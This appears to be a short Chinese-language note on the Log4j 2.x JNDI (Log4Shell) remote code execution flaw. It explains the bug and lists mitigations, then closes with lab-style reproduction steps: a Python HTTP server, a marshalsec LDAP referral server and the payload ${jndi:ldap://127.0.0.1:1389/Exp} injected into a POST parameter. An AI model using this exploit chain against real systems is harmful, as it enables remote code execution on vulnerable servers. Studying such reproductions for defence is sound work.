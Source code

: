 漏洞的核心问题在于 Log4j 2.x 中的 JNDI 查找机制，它允许在日志消息中使用 `${}` 占位符来引用远程 JNDI 资源。攻击者可以构造一个包含恶意 JNDI 资源引用的日志消息，当应用程序尝试处理这个消息时，就会触发远程代码执行。这个问题影响了许多应用程序，尤其是那些使用默认配置并且处理用户提供的日志消息的应用程序。

针对这个漏洞，一些应对措施和建议包括：

- **升级到修复版本**：Apache Log4j 团队迅速发布了修复版本来解决这个问题。如果您的应用程序使用 Log4j，请尽快升级到受影响版本的修复版本。

- **过滤恶意输入**：如果您无法立即升级到修复版本，您可以考虑在应用程序中实施输入过滤，以防止恶意的日志消息触发漏洞。

- **配置安全策略**：您可以通过配置安全策略来限制应用程序访问 JNDI 资源。这有助于减少远程代码执行的风险。

- **检查应用程序依赖**：检查您的应用程序是否使用 Log4j，并确定所使用的版本。这可以帮助您确定是否受到漏洞的影响。

- **监控和响应**：监控您的应用程序日志，以便在发现异常活动时能够及时采取行动。

请注意，随着时间的推移，漏洞情况可能会发生变化，所以始终建议查阅官方安全公告和可靠的安全资源以获取最新信息和指导。

大致步骤
1. 将.java文件进行编译  
2. python起一个服务
```
python3 -m http.server 1234 
```
3. 先下载好marshalsec，进入文件夹，运行以下命令
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Exp
```
4. post 参数添加 ${jndi:ldap://127.0.0.1:1389/Exp}
